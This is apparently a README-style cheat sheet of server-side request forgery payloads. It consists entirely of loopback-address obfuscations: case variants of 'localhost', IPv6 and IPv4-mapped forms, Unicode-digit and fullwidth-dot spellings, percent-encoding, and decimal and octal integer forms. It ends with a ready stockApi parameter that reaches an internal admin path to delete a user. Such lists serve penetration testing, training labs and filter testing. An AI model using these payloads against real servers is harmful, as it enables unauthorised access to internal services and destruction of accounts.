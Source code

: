 # SSRF Payloads

>Server side request forgery  

```
127.0.0.1
127.1
```  

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```  

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```  

```
017700000001
```

```
stockApi=http://127.0.1/%41dmin/delete?username=carlos
```
